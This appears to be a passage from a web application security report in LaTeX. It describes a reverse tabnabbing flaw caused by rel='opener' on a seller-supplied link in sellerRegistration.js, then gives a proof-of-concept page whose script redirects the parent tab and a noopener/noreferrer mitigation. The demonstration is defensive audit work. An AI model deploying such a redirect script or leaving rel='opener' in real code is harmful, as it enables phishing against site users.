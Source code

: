 \documentclass[]{article}
\begin{document}
The attack is also possible for link opened via the window.open javascript function.
\\ \textbf{Vulnerable code:} In \texttt{sellerRegistration.js}:
\begin{lstlisting}
<td>{props.seller.webpage ? <Button as="a" href={props.seller.webpage} target="_blank" rel="opener">Open</Button> : "N/A"} </td>
\end{lstlisting}
\texttt{rel="opener"} allows the opened page to have a reference to the parent page. With this reference the attacker can replace the parent page with a phishing site.
\\ \textbf{Exploitation:} A seller during registration can insert a link to a web page. An attacker can exploit this by inserting a link to a page that has the code to replace the parent page. For example:
\begin{lstlisting}
<!-- This is a test page to demonstrate Reverse Tabnabbing attack -->
<html>
  <head>
    <title>Page not found</title>
    <script>
      if (window.opener) {
        window.opener.location =
          "https://upload.wikimedia.org/wikipedia/commons/2/26/You_Have_Been_Hacked%21.jpg";
      }
    </script>
  </head>
  <body>
    <h1>Page not found</h1>
    <p>
      The page you are looking for might have been removed, had its name
      changed, or is temporarily unavailable.
    </p>
    <p>Please go back where you came from :(</p>
  </body>
</html>
\end{lstlisting}
For simplicity, we chose to insert a link that redirects to an image with a message rather than a phishing page.
\\ \textbf{Mitigation:} To mitigate this vulnerability, simply use \texttt{rel="noopener"} or \texttt{rel="noreferrer"} instead of \texttt{rel="opener"}. Using \texttt{rel="noreferrer"} also implies \texttt{rel="noopener"}, so if you have chosen to use \texttt{rel="noreferrer"}, the use of \texttt{rel="noopener"} isn’t required.

\subsection{Vulnerable and Outdated Components}

Vulnerabilities in outdated components arise when software applications use third-party libraries that are no longer maintained or contain known security flaws. These components often run with the same privileges as the main application, making their vulnerabilities particularly dangerous.
\end{document}
